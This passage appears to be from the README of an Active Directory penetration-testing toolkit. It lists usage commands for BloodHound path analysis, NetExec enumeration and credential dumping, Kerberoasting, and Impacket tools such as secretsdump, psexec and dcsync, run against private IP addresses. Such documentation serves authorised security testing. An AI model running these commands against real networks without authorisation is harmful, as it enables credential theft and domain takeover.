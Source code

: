 ### Analyzing Attack Paths

**Manual (UI-based):**
```
1. Start Neo4j database
2. Import data into BloodHound
3. Run queries like "Shortest Path to Domain Admins"
4. Analyze the graph visualization
```

**Automated:**
```bash
# Basic automation in BloodHound data collection
./adpentest-toolkit.py bloodhound -t 192.168.1.100
```

---

## Command Quick Reference

### NetExec Wrapper

```bash
# Set configuration
./netexec-enumerator.py set username Administrator
./netexec-enumerator.py set password Password123!
./netexec-enumerator.py set target 192.168.1.100

# Enumeration tasks
./netexec-enumerator.py enum smb        # Basic SMB enumeration
./netexec-enumerator.py enum users      # User enumeration
./netexec-enumerator.py enum creds      # Credential dumping
./netexec-enumerator.py enum spider     # Share spidering
./netexec-enumerator.py enum policy     # Password policy
```

### Kerberoast Automation

```bash
# Basic Kerberoasting against a target
./kerberoast.py -t 192.168.1.100

# Kerberoasting against multiple targets
./kerberoast.py -t 192.168.1.100 192.168.1.101 192.168.1.102
```

### Impacket Toolkit

```bash
# Run specific tools
./impacket-toolkit.py secretsdump -t 192.168.1.100
./impacket-toolkit.py smbclient -t 192.168.1.100
./impacket-toolkit.py psexec -t 192.168.1.100
./impacket-toolkit.py wmiexec -t 192.168.1.100
./impacket-toolkit.py asreproast -t 192.168.1.100
./impacket-toolkit.py dcsync -t 192.168.1.100

# Run all Impacket tools
./impacket-toolkit.py all -t 192.168.1.100
```
